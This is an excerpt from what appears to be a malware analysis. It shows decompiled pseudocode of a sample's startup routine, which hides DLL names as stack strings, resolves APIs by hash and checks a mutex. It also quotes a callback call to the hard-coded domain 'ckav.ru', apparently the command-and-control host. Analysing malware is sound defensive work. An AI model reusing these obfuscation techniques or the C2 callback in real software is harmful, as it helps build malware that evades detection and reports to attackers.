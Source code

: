 ```cpp
  v1(3);
  v8[0] = 79;
  v8[1] = 76;
  v8[2] = 69;
  v8[3] = 65;
  v8[4] = 85;
  v8[5] = 84;
  v8[12] = 0;
  v9[0] = 119;
  v9[1] = 115;
  v9[3] = 95;
  v9[10] = 0;
  v10[0] = 111;
  v10[2] = 101;
  v8[6] = 51;
  v8[7] = 50;
  v8[8] = 46;
  v8[9] = 100;
  v8[10] = 108;
  v8[11] = 108;
  v9[2] = 50;
  v9[4] = 51;
  v9[5] = 50;
  v9[6] = 46;
  v9[7] = 100;
  v9[8] = 108;
  v9[9] = 108;
  v10[1] = 108;
  v10[3] = 51;
  v10[4] = 50;
  v10[5] = 46;
  v10[6] = 100;
  v10[7] = 108;
  v10[8] = 108;
  v10[9] = 0;
  v2 = (void (__stdcall *)(__int16 *))sub_4031E5(0, -401479468, 0, 0);
  v2(v8);
  v3 = (void (__stdcall *)(__int16 *))sub_4031E5(0, -401479468, 0, 0);
  v3(v9);
  v4 = (void (__stdcall *)(__int16 *))sub_4031E5(0, -401479468, 0, 0);
  v4(v10);
  if ( sub_414059() )
  {
    v5 = sub_413D97();
    v6 = (void (__stdcall *)(_DWORD, int, int))sub_4031E5(0, -820609548, 0, 0);
    v6(0, 1, v5);
    if ( GetLastError() == 183 )
      sub_413B81(0);
    sub_413003();
    sub_412B2E();
    sub_412D31();
    sub_413B3F();
    sub_413B81(0);
    dword_49FDD0 = 1;
  }
  return 0;
}
```
`sub_413003` contains the malware's callbacks just like in Malware 2.1; we can also find the same string "ckav.ru":
`sub_405872(dword_49FDE0, "ckav.ru", 0, 0);`
